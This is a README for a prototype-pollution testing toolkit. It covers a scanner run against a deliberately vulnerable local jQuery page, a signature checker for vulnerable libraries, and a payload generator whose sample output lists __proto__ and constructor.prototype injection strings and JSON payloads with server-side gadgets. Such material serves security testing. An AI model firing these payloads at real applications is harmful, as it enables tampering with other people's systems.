 # PrototypR

Prototype Pollution Detector Tool

- This tool is use the following research: [s1r1us PP Research](https://blog.s1r1us.ninja/research/PP)
- The prototype_checker.js file was copied from: [cspp-tools](https://github.com/BlackFan/cspp-tools/blob/main/prototype_checker/prototype_checker.js)




## Example Usage

Implement an example vulnerable fragment of code [Link](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/jquery-parseparam.md)

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.min.js"></script>
<script src="https://gist.githack.com/jhjguxin/10971155/raw/f5a8625d868cca305387252dd3293864868d455d/jquery.parseparams.js"></script>
<script>
  $.parseParams(location.href);
</script>
```

Then execute the tool which found Prototype pollution:


```bash
python3 prototyper.py -u "http://127.0.0.1:9001/parseparam.html?foo=bar"                                                          
[+] Prototype Pollution found on URL: http://127.0.0.1:9001/parseparam.html?foo=bar&x.__proto__.edcbcab=edcbcab
[+] Prototype Pollution found on URL: http://127.0.0.1:9001/parseparam.html?foo=bar&__proto__.baaebfc=baaebfc
[+] Prototype Pollution found on URL: http://127.0.0.1:9001/parseparam.html?foo=bar&constructor.prototype.cfbacfd=cfbacfd

```

Check The result:

- Open a new browser tab
- Navigate to the affected url copied from the tool result
- Open Browser Console [`F12`]
- Execute: `Object.prototype`


![image](https://github.com/user-attachments/assets/b220220a-a3df-4d97-9bb3-cb0cc65646bc)

-----

# PPSignature

Signature based detection

**Check Single URL**

```bash
python3 ppsignature.py -u "https://raw.githack.com/cowboy/jquery-bbq/8e0064ba68a34bcd805e15499cb45de3f4cc398d/jquery.ba-bbq.js"
[*] Potentially Vulnerable JS found! (jQuery BBQ (deparam) Prototype Pollution)
[*] Potentially Vulnerable JS found! (deparam Prototype Pollution)
```

**Check URL List**

```bash
python3 ppsignature.py -ul /tmp/urls                                                                                                               
[*] Potentially Vulnerable JS found! (davis.js Prototype Pollution)
[*] Potentially Vulnerable JS found! (jQuery Sparkle Prototype Pollution)
[*] Potentially Vulnerable JS found! (jQuery BBQ (deparam) Prototype Pollution)
[*] Potentially Vulnerable JS found! (deparam Prototype Pollution)
```


# Parameter Polluter

**Help**

```bash
usage: Parameter Pollution Payload Generator [-h] [-p] [-j] [-pp]

options:
  -h, --help            show this help message and exit
  -p , --parameters     Parameters for poisoning
  -j , --json           Specify JSON dictionary to poison
  -pp, --prototype-pollution
                        Generate Prototype pollution payloads
```

Generate polluter parameters from `foo=bar&bar=baz` and append prototype pollution payloads too

```bash
python3 parameter_polluter.py -p 'foo=bar&bar=baz' -pp
foo=bar&foo=IrZFbp3EhFwgVEJY&bar=baz
foo=bar&bar=baz&bar=s5PFsDRw8DwUdAWd
foo[]=bar&foo[]=8qbNQZXidrBJz0zR&bar=baz
foo=bar&bar[]=baz&bar[]=GPiO0PuJ4ZDnyzCW
foo=bar&%66oo=fO21ApidTDgNlAfz&bar=baz
foo=bar&bar=baz&%62ar=sRoKlO5vfz94ijqP
foo=bar,E8XKDQHua4BhFGp2&bar=baz
foo=bar&bar=baz,STBhY6AgcxBYAFx4
bar=baz&foo=bar&constructor[prototype][polluted]=Z74dgWmQeVeJJ4aK
bar=baz&foo=bar&constructor.prototype.polluted=Z74dgWmQeVeJJ4aK
bar=baz&foo=bar&__proto__[polluted]={"json":"Z74dgWmQeVeJJ4aK"}
bar=baz&foo=bar&__proto__[polluted]=Z74dgWmQeVeJJ4aK
bar=baz&foo=bar&__proto__.polluted=Z74dgWmQeVeJJ4aK
```
The same generation but in this case the input and the output structure is a JSON data structure

```js
python3 parameter_polluter.py -j '{"username":"patrick","role":"user"}' -pp
{"username": ["patrick", "Of4PXVStDWmBjVwt"], "role": "user"}
{"username": "patrick", "role": ["user", "aColnFU3lZaDiDyV"]}
{"username": {"username": "patrick", "unecpected": "VAZyqFSRQxItUmSO"}, "role": "user"}
{"username": "patrick", "role": {"role": "user", "unecpected": "3KqzUabD2a98zUEF"}}
{"username": "patrick", "role": "user", "__proto__": {"polluted": "DIYJe7sJXo2QGJRG"}}
{"username": "patrick", "role": "user", "__proto__": {"polluted": {"json": "DIYJe7sJXo2QGJRG"}}}
{"username": "patrick", "role": "user", "__proto__": {"status": 555}}
{"username": "patrick", "role": "user", "__proto__": {"json spaces": 500}}
{"username": "patrick", "role": "user", "__proto__": {"content-type": "application/json; charset=utf-7", "+AGYAbwBv-": "foo"}}
{"username": "patrick", "role": "user", "constructor": {"prototype": {"polluted": "DIYJe7sJXo2QGJRG"}}}
```

